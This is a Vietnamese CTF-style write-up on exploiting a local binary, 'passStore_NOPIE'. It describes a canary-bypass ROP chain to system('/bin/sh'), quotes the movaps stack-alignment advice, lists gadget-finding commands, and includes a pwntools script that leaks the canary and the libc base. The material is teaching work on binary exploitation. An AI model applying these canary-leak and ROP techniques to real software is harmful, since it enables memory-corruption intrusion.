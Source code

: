 **payload = ***bypass canary*** + ret + pop_rdi_ret + binsh_addr + system_addr**

đưa addr của chuỗi /bin/sh vào rdi làm tham số thứ 1 và gọi system. tuy nhiên đây là kiến trúc 64bits nên là cần ret trước đó để tránh lỗi movaps:

> The MOVAPS issue
>
>> If you're segfaulting on a movaps instruction in buffered_vfprintf() or do_system() in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as printf() or system(). Some versions of GLIBC uses movaps instructions to move data onto the stack in certain functions. The 64 bit calling convention requires the stack to be 16-byte aligned before a call instruction but this is easily violated during ROP chain execution, causing all further calls from that function to be made with a misaligned stack. movaps triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra ret before returning into a function or return further into a function to skip a push instruction.


Chúng ta có thể dùng các tool dưới cho việc tìm offset, ropgadget cần thiết, tuy nhiên ở script của mình sẽ tối ưu hóa hơn với pwntools:

```shell
ROPgadget --binary file | grep "somthing"
readelf -sW /usr/lib/x86_64-linux-gnu/libc.so.6 | grep "system"
strings -tw /usr/lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"

```

### Exploit code

#### Exploit code ver1


```python
from pwn import *

binary = ELF('./passStore_NOPIE')
libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")
rop = ROP(binary)
r = process(binary.path)
#gdb.attach(r , api=True)

payload1 = b"a"*56
r.sendlineafter(b"Type the password: ",payload1)

r.recvline()

canary = b"\x00"  +  r.recv(7).split(b"\n")[0] 
canary += b"\x00"*(8 - len(canary))
log.info("Leaked canary: " + str(hex(u64(canary))))

main = binary.symbols['main'] 
ret = rop.find_gadget(['ret'])[0] 


payload2 = b"a"*56 + p64(u64(canary)) + b"a"*8 + p64(main+53)
r.sendlineafter(b"Retype: ",payload2)

payload3 = b"a"*248
r.sendlineafter(b"Type the password:",payload3)
r.recvline()

res = r.recv().split(b"\nRetype")[0] 
res += b"\x00"*(8 - len(res))
leak = (u64(res) << 8) + 0x0a 
_libc_start_main_addr = leak - 0x4a 
libc_base = _libc_start_main_addr - libc.symbols['__libc_start_main']
log.info("libc base addr : " + hex(libc_base)) 
```